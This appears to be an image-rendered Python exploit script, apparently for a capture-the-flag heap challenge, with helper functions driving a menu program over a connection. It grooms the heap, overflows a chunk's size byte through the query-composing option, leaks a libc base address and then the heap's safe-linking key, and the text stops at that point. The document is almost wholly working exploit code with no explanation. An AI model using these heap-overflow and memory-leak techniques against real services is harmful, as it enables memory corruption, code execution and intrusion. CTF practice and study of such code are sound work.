 ```python
def cmd(choice):
    ru(b"Choice >")
    sl(i2b(choice))


def input_uri(idx, size, data):
    cmd(1)
    ru(b"Enter index:\n")
    sl(i2b(idx))
    ru(b"Enter uri length:\n")
    sl(i2b(size))
    ru(b"Enter uri string:\n")
    s(data)


def compose_query(idx, key, val):
    cmd(2)
    ru(b"Enter index:\n")
    sl(i2b(idx))
    ru(b"Enter key:\n")
    s(key)
    ru(b"Enter val:\n")
    s(val)


def show(idx):
    cmd(3)
    ru(b"Enter index:\n")
    sl(i2b(idx))


def delet(idx):
    cmd(4)
    ru(b"Enter index:\n")
    sl(i2b(idx))
    

input_uri(1, 0x30, b"aaa")
input_uri(2, 0x40, b"bbb")
input_uri(3, 0x10, b"ccc")
input_uri(4, 0x520, b"ddd")
input_uri(5, 0x520, b"eee")
delet(1)
delet(4)

compose_query(0, b"a" * 1, b"1" * (0x80 + 6) + p8(0x71))
delet(3)
input_uri(3, 0x68, b"a" * 0x20)
show(3)
ru(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
libc_base = u64_ex(rn(6)) - 0x21ACE0
lg("libc_base", libc_base)
delet(3)
input_uri(3, 0x68, flat({0x18: [0x531]}))
input_uri(4, 0x520, b"ddd")
delet(3)
input_uri(3, 0x68, flat({0x18: [0x101]}))
delet(4)
delet(3)
input_uri(3, 0x68, b"a" * 0x20)
show(3)
ru(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
heap_key = u64_ex(rn(5))
```